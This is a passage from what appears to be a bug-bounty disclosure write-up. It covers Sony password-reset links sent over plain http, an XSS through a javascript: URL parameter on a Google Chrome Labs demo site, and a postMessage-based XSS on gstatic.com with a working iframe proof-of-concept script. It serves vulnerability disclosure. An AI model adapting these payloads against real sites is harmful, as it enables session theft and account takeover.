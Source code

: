 - `sony@email02.account.sony.com` -> http link
- `sony@txn-email03.playstation.com` -> https link

## Attack scenario

A local network attacker can gain account takeover if a user attempts to reset their password.  
May also require the user's data of birth depending on the account settings.

# XSS on AffiliCats (googlechromelabs.github.io) Not fixed

**URL:** <https://googlechromelabs.github.io/affilicats/forward.html?url=javascript:alert(window.origin)>

The "AffiliCats" website has an open redirect that sets `document.location.href` with the URL param called `url` this allows navigating to `javascript:`

```js
((f = new URLSearchParams(document.location.search)),
  (g = new URL(f.get('url'))));
```

## Attack scenario

An attacker controlled website gains the "cutest cats online"

# XSS on GSTATIC (www.gstatic.com) WAI

Awarded for individual impacts reported.

```js
let payload = `
alert(window.origin);
`;

let f = document.createElement('iframe');
f.src =
  'https://www.gstatic.com/alkali/43ecc24c54630568577e5fdcbc826f3153491684.html';
document.body.appendChild(f);
setTimeout(() => {
  f.contentWindow.postMessage(
    {
      resourcePaths: {
        jsPath: 'data:text/html,' + encodeURIComponent(payload)
      }
    },
    '*'
  );
}, 2000);
```

## Attack scenario

